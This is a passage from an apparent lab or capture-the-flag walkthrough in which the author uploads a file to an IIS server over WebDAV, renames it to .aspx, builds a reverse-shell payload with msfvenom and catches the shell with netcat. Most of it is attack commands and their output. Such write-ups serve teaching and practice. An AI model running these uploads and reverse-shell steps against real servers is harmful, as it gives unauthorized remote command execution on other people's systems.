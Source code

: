 ### Move Webshell

Now I’ll use the next webdav command, MOVE. Again, I can do this with curl:

-   `-X MOVE` - use the MOVE method
-   `-H 'Destination:http://10.129.103.148/reverse.aspx'` - defines where to move to
-   `http://10.129.103.148/test.txt` - the file to move

```
curl -X MOVE -H 'Destination:http://10.129.103.148/reverse.aspx' http://10.129.103.148/test.txt
```

As this worked, we'll an `aspx` reverse shell with `mafvenom`:

```
└─$ msfvenom -p windows/shell_reverse_tcp -f aspx LHOST=10.10.17.226 LPORT=1234 -o shell.aspx
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 324 bytes
Final size of aspx file: 2714 bytes
Saved as: shell.aspx
                                                               
└─$ mv shell.aspx shell.txt                              
                                                               
└─$ curl -X PUT http://10.129.103.148/shell.txt --data-binary @shell.txt
                                                                           
└─$ curl -X MOVE --header 'Destination:http://10.129.103.148/shell.aspx' 'http://10.129.103.148/shell.txt'
```

At a second terminal we listen to incomming connection with `nc`, and download the reverse shell.

```
└─$ curl http://10.129.103.148/shell.aspx     
```


```
─$ nc -nlvp 1234
listening on [any] 1234 ...
connect to [10.10.17.226] from (UNKNOWN) [10.129.103.148] 1035
Microsoft Windows [Version 5.2.3790]
(C) Copyright 1985-2003 Microsoft Corp.

c:\windows\system32\inetsrv>whoami
whoami
nt authority\network service

c:\windows\system32\inetsrv>systeminfo | findstr /B /C:"OS Name" /C:"OS Version"
systeminfo | findstr /B /C:"OS Name" /C:"OS Version"
OS Name:                   Microsoft(R) Windows(R) Server 2003, Standard Edition
OS Version:                5.2.3790 Service Pack 2 Build 3790

```
